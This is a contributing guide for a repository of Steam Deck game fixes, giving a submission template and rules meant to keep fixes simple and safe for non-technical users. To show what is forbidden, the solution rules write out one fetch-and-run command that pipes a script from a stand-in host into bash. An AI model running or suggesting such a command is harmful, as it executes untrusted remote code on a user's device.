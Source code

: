 You can share your fix either with 
 * A [pull request](https://github.com/eregnier/steam-deck-games-fixes/pulls) (developper way)
 * By [filling an issue](https://github.com/eregnier/steam-deck-games-fixes/issues) (other people > button issues above > new > copy paste the template below and replace content accordingly)

Please follow the template bellow to makes it simpler to me to integrate with existing work. Please write contributions in english if possible.

### Game name - Platform name

[Source](http://alinktothesource.com)

(link have to be written like below in github)

![image](https://user-images.githubusercontent.com/5399780/211127340-f72de26c-a515-418c-bc4a-1cfdb6e0c793.png)


Problem :

 - Describe the problem in a concise way to **let folks easily identify** if they have the same issue

Solution :

 * Describe a reproductible way to solve the issue as you can. keep in mind many users are non technical persons that should be able to do the trick from your steps.
 * A link to external ressource has a great chance to be removed to prevent user running arbitrary code on their devices. 
 * If commands are provided (let say bash things), it must remain simple and concise and must NOT trigger arbitrary code (e.g curl http://something-bad.sh | bash)
 * Specific commands with explicit values might be allowed sed -i s/thing/newvalue/ /home/deck/path/to/game/settings.ini

Have a look to existing tricks for inspiration 😉

I am open to any suggestion, do not hesitate to ask / share !
